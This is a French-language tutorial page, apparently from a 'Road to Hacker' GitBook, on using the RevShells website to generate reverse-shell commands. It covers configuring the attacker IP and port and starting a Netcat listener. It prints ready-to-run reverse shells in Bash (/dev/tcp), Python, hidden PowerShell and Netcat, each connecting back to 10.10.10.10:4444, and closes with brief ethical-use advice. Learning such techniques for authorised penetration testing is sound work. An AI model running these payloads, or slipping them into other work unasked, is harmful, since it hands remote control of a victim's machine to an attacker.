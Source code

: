 # Shells et Reverse Shells

### **Tuto RevShells : Générateur de Reverse Shells en ligne**

RevShells est un outil en ligne qui aide à générer des commandes de reverse shells adaptées à différents environnements et langages. Il est particulièrement utile pour les tests de pénétration ou les exercices de cybersécurité.

***

### **Fonctionnalités principales :**

* Génération rapide de commandes de reverse shells compatibles avec divers langages (Bash, Python, PHP, PowerShell, etc.).
* Paramétrage simple avec l'adresse IP et le port cible.
* Options pour des shells spécifiques comme Netcat, Socat, Perl, Ruby, ou encore Java.
* Affichage des configurations nécessaires sur la machine d'écoute.

***

### **Comment utiliser RevShells :**

1. **Accéder au site :**
   * Rendez-vous sur [RevShells](https://www.revshells.com/).
2. **Configurer les paramètres :**
   * **IP** : Entrez l'adresse IP de votre machine attaquante (celle où le shell se connectera).
   * **Port** : Indiquez le port que votre machine écoutera pour la connexion entrante.
3. **Choisir le type de shell :**
   * RevShells propose une liste complète de reverse shells parmi les plus courants :
     * **Bash** : Pour les environnements Linux/Unix.
     * **Netcat** : Une solution rapide si Netcat est disponible.
     * **Python/Perl/Ruby** : Pour les systèmes ayant ces interpréteurs.
     * **PHP** : Utile pour les serveurs web.
     * **PowerShell** : Pour les systèmes Windows.
     * **Socat** : Pour un reverse shell plus robuste.
     * **Java** : Pour des environnements basés sur Java.
   * Cliquez sur le shell souhaité pour générer la commande correspondante.
4. **Copier la commande générée :**
   * La commande adaptée à votre configuration est affichée. Vous pouvez la copier pour l'utiliser sur la machine cible.
5. **Configurer l'écouteur sur votre machine :**
   * RevShells fournit également la commande à exécuter sur votre machine pour écouter les connexions entrantes.
   *   Exemple avec Netcat :

       ```bash
       nc -lvnp [PORT]
       ```
   * Lancez cette commande avant d'exécuter le shell généré sur la machine cible.

***

### **Exemples de commandes générées :**

**1. Bash Reverse Shell :**

```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**2. Python Reverse Shell :**

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

**3. PowerShell Reverse Shell :**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)};$client.Close()
```

**4. Netcat Reverse Shell :**

```bash
nc -e /bin/bash 10.10.10.10 4444
```

***

### **Bonnes pratiques :**

* **Test en environnement contrôlé** : Utilisez toujours les reverse shells dans un environnement d'apprentissage ou autorisé.
* **Configurer le pare-feu local** : Assurez-vous que le port spécifié est ouvert sur votre machine attaquante.
* **Évitez les abus** : RevShells est conçu pour des tests éthiques et éducatifs uniquement.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
